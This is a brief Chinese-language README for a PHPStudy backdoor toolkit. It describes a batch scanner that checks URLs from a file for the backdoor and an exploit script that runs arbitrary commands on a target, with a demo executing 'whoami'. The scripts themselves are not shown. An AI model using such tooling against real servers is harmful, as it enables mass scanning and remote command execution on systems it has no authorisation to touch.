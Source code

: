 # PHPStudy_BackDoor

	#phpstudy_backdoor_poc.py
		多进程批量检测脚本，自动读取urls.txt中内容，然后进行批量检测
		检测结果如发现漏洞会存入phpstudy_backdoor_urls.txt中

	#运行demo：
	```
	python phpstudy_backdoor_poc.py

	[+] http://127.0.0.1 is vulnerable.
	[-] http://192.168.1.1 is invulnerable.
	[*] http://192.168.1.2 Looks Like Something Wrong.
	[*] http://192.168.1.3 Looks Like Something Wrong.
	```

	#phpstudy_backdoor_exp.py
		漏洞利用脚本，操作精简。
		Usage: python3 phpstudy_backdoor_exp.py [url] [command]

	#运行demo：
	```
	python phpstudy_backdoor_exp.py 127.0.0.1 whoami

	[+] Command Execute Successful.
	rabbitmask\rabbitmask
	```

